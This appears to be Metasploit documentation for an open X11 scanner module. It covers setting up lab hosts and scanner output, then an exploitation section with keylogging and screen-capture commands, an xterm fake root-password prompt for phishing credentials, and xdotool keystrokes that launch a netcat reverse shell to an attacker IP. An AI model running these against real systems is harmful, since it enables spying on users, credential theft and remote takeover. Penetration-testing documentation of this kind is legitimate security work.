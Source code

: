 ## Vulnerable Application

X11 (X Window System) is a graphical windowing system most common on unix/linux, although implementations may be found in windows
with software such as Hummingbird Exceed X Server.  The service can accept connections from any users when misconfigured
which is done with the command `xhost +`.

### Ubuntu 10.04

1. `sudo nano /etc/gdm/gdm.schemas`
2. Find:

    ```
    <schema>
     <key>security/DisallowTCP</key>
     <signature>b</signature>
     <default>true</default>
    </schema>
    ```
  - Change `true` to `false`

3. logout or reboot
4. Verification: ```sudo netstat -antp | grep 6000```

    ```
    tcp        0      0 0.0.0.0:6000            0.0.0.0:*               LISTEN      1806/X
    ```

5. Now, to verify you allow ANYONE to get on X11, type: `xhost +`

### Ubuntu 12.04, 14.04

1. `sudo nano /etc/lightdm/lightdm.conf`
2. Under the `[SeatDefaults]` area, add:

    ```
    xserver-allow-tcp=true
    allow-guest=true
    ```

3. logout or reboot
4. Verification: ```sudo netstat -antp | grep 6000```

    ```        	
    tcp        0      0 0.0.0.0:6000            0.0.0.0:*               LISTEN      1806/X
    ```

5. Now, to verify you allow ANYONE to get on X11, type: `xhost +`

### Ubuntu 16.04

  Use the Ubuntu 12.04 instructions, however change `SeatDefaults` to `Seat:*`

### Fedora 15

1. `vi /etc/gdm/custom.conf`
2. Under the `[security]` area, add:

    ```
    DisallowTCP=false
    ```

3. logout/reboot
4. Now, to verify you allow ANYONE to get on X11, type: `xhost +`

### Solaris 10

1. `svccfg -s svc:/application/x11/x11-server setprop options/tcp_listen = true`
2. `svc disable cde-login`
3. `svc enable cde-login`
4. `xhost +`

## Verification Steps

  1. Install and configure X11
  2. Start msfconsole
  3. Do: `use auxiliary/scanner/x11/open_x11`
  4. Do: `set rhosts [IPs]`
  5. Do: `run`

## Scenarios

  A run against Ubuntu 14.04 (192.168.2.75), Ubuntu 16.04 (192.168.2.26), and Solaris 10 (192.168.2.32)

  ```
    msf > use auxiliary/scanner/x11/open_x11 
    msf auxiliary(open_x11) > set rhosts 192.168.2.75 192.168.2.26
    rhosts => 192.168.2.75 192.168.2.26
    msf auxiliary(open_x11) > run
    
    [+] 192.168.2.75:6000     - 192.168.2.75 Open X Server (The X.Org Foundation)
    [*] Scanned 1 of 3 hosts (33% complete)
    [+] 192.168.2.26:6000     - 192.168.2.26 Open X Server (The X.Org Foundation)
    [*] Scanned 2 of 3 hosts (66% complete)
    [+] 192.168.2.32:6000     - 192.168.2.32 Open X Server (Sun Microsystems, Inc.)
    [*] Auxiliary module execution completed
  ```

## Confirming

The following are other industry tools which can also be used.

### [nmap](https://nmap.org/nsedoc/scripts/x11-access.html)

```
# nmap -p 6000 --script=x11-access 192.168.2.26,75

Starting Nmap 7.40 ( https://nmap.org ) at 2017-04-23 13:15 EDT
Nmap scan report for ubuntu-desktop-16 (192.168.2.26)
Host is up (0.0021s latency).
PORT     STATE SERVICE
6000/tcp open  X11
|_x11-access: X server access is granted
MAC Address: 00:0C:29:60:27:F9 (VMware)

Nmap scan report for ubuntu-desktop-14 (192.168.2.75)
Host is up (0.0021s latency).
PORT     STATE SERVICE
6000/tcp open  X11
|_x11-access: X server access is granted
MAC Address: 00:0C:29:0E:C4:6E (VMware)
```

### xdpyinfo

This is one of the standard linux tools to get info on an X display.

```
# xdpyinfo -display 192.168.2.75:0 | head -n 5

name of display:    192.168.2.75:0
version number:    11.0
vendor string:    The X.Org Foundation
vendor release number:    11803000
X.Org version: 1.18.3
```

## Exploitation

Exploiting this mis-configuration has several methods.  The target can have their display viewed, keystrokes logged, and potential keyboard typed.

### Keylogging

To keylog the remote host, we use a tool called [xspy](http://tools.kali.org/sniffingspoofing/xspy)

`xspy -display [ip]:0`

### Screen Monitoring

#### Entire Display

It is possible to monitor the entire display (all windows) and view the content.

 - Take a screenshot: `xwd -root -display [ip]:[display] -out xdump.xdump`
 - View screenshot: `display xdump.xdump` or `xwud -in xdump.xdump`

#### Specific Window

To monitor only a single window (a terminal for instance)

First, we need to determine which windows are available and what their processes are:

 - `xwininfo -tree -root -display [ip]:0`
 
Once you determine which window you want to monitor, you'll want to use the `windowID`.  Now use the application `xwatchwin`

 - `xwatchwin [ip]:0 -w [windowID]`

### Social Engineering

Obviously watching keystrokes is good, but we want to coax the user into providing their password.  We can do this by using xterm to display a login box to the user.

This was tested against Ubuntu 12.04, 14.04, 16.04 and Solaris 10.

1. start `xspy`
2. `xterm -T "Root Permission Required" -display [ip]:0 -e "echo -e -n 'root password: '; read passwd; echo 'Authentication Failure'; echo -e -n 'root password: '; read passwd"`
  - Notice it asks twice for the password in case of a mistyped initial password.  This can also be adjusted to just say password or the real user's username
  - The victim's typed text by the user will not be masked (`*`)

### Direct Exploitation

Use `exploits/unix/x11/x11_keyboard_exec`

### Typing Commands

Similar to the method `exploits/unix/x11/x11_keyboard_exec` uses, its possible to use `xdotool` to run commands on the remote system.

To install `xdotool` on kali simply run `apt-get install xdotool`

Now, you can directly interact by typing commands (which appear on the users screen), an example would be running xterm and launching netcat.

For this scenario we run a simple reverse netcat to 192.168.2.9:80

```
xdotool key alt+F2
xdotool key x t e r m
xdotool key KP_Enter
xdotool key n c space 1 9 2 period 1 6 8 period 2 period 9 space 8 0 space minus e space slash b i n slash b a s h KP_Enter
```
